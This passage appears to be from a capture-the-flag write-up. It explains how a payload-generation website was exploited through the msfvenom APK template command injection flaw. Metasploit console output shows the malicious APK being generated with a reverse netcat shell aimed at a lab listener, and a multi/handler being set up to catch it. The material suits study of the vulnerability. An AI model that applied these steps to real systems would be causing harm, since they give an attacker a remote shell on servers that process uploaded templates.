 ![[Pasted image 20210503220424.png]]

We do have the ability to include templates, so I began researching what I can potentially do to manipulate this ability. Some relevant articles from the research:
[Rapid7](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
[GitHub](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)

Following the steps in [this Rapid7 article](https://github.com/rapid7/metasploit-framework/pull/14331), I was able to establish a reverse-shell by manipulating the upload feature on the website responsible for generating MSFVENOM payloads (in this case, for android).

### Steps to accomplish:
Generate payload
```bash
msf6 > use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.111        yes       The listen address (an interface may be specified)
   LPORT  8989             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**
...

[+] msf.apk stored at /root/.msf4/local/msf.apk
```

Initiate listener (multi/handler)
```bash
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.111     yes       The listen address (an interface may be specified)
   LPORT  8989             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```